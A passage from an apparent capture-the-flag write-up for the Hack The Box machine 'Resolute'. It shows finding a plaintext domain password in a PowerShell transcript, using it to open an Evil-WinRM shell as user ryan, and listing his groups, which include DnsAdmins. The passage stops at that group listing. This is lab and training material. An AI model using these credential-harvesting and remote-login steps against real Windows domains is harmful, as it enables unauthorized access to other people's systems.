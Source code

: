 ```

One interesting folder is `PSTranscripts`. If we navigate through this folder we can see a log of some PowerShell commands from Ryan with some helpful information.


```
*Evil-WinRM* PS C:\PSTranscripts\20191203> cat PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
**********************
Windows PowerShell transcript start
Start time: 20191203063201
Username: MEGABANK\ryan
...
>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
...
```

There is a command logged that requires a password that Ryan put in as plaintext. We can now get a shell as Ryan using `evil-winrm`.

```
# evil-winrm -i resolute.htb -u ryan -p Serv3r4Admin4cc123!

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\ryan\Documents> 
```

If we investigate more, we see that Ryan is part of several groups.

```
*Evil-WinRM* PS C:\Users\ryan\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes
========================================== ================ ============================================== ===============================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
MEGABANK\Contractors                       Group            S-1-5-21-1392959593-3013219662-3596683436-1103 Mandatory group, Enabled by default, Enabled group
MEGABANK\DnsAdmins                         Alias            S-1-5-21-1392959593-3013219662-3596683436-1101 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192